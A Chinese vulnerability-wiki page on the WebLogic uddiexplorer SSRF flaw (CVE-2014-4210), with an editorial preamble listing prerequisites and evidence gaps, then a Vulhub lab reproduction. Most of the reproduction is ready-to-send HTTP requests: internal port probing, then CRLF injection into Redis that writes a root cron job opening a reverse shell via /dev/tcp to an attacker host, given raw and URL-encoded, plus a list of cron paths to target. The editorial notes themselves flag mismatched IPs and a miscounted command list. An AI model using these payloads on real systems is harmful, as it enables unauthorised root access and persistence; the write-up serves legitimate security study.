





# Weblogic uddiexplorer SSRF漏洞 CVE-2014-4210

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Unauthenticated UDDI Explorer; Redis chain additionally requires reachable unauthenticated command service, CONFIG/SAVE permission, root-owned cron write and compatible OS/cron
- 证据范围：Useful error-based SSRF and CRLF-to-Redis explanation; filesystem persistence chain is not an automatic consequence of WebLogic SSRF.

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- First prose port80 versus request7001, discovered172.18.0.2 versus payload172.20.0.2
- Intro LFCR encoding contradicts later correct CRLF
- Says three Redis commands but example has SET, two CONFIG and SAVE
- Overwriting /etc/crontab with RDB is destructive and not guaranteed accepted by every cron implementation
- Required Redis privileges/config/version and filesystem constraints omitted
- No cleanup/restoration or Oracle patch reference; FastCGI exploitation only asserted

### 操作风险与资料使用

- 含计划任务、启动项或 SSH 授权文件写入：会改变后续执行或登录行为。测试前备份原文件，结束后恢复原内容、权限与属主，不覆盖生产文件。
- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。

## 漏洞影响

```
Oracle WebLogic Server 10.0.2.0
Oracle WebLogic Server 10.3.6.0
```

## 环境搭建

Vulhub编译及启动测试环境：

```shell
docker-compose up -d
```

访问`http://your-ip:7001/uddiexplorer/`，无需登录即可查看uddiexplorer应用。




## 漏洞复现

SSRF漏洞存在于`http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp`，我们在burpsuite下测试该漏洞。访问一个可以访问的IP:PORT，如`http://127.0.0.1:80`：

```http
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: your-vps-ip:7001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

可访问的端口将会得到错误，一般是返回status code（如下图），如果访问的非http协议，则会返回`did not have a valid SOAP content-type`。




修改为一个不存在的端口，将会返回`could not connect over HTTP to server`。




通过错误的不同，即可探测内网状态。

### 反弹shell

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

> 此处kali启动redis失败，转为CentOS vps进行复现。

首先，通过ssrf探测内网中的redis服务器（docker环境的网段一般是172.*），发现`172.18.0.2:6379`可以连通：




发送三条redis命令，将弹shell脚本写入`/etc/crontab`：

```
test

set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/your-reverse-shell-ip/9999 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save

aaa
```

进行url编码：

```
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fyour-reverse-shell-ip%2F9999%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

注意，换行符是“\r\n”，也就是“%0D%0A”。

将url编码后的字符串放在ssrf的域名后面，发送：

```http
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.20.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fyour-reverse-shell-ip%2F9999%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: your-vps-ip:7001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

成功反弹：




最后补充一下，可进行利用的cron有如下几个地方：

- /etc/crontab 这个是肯定的
- /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
- /var/spool/cron/root是centos系统下root用户的cron文件
- /var/spool/cron/crontabs/root是debian系统下root用户的cron文件

## 开源POC

- https://github.com/0xn0ne/weblogicScanner
- https://github.com/rabbitmask/WeblogicScan
- https://github.com/dr0op/WeblogicScan


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
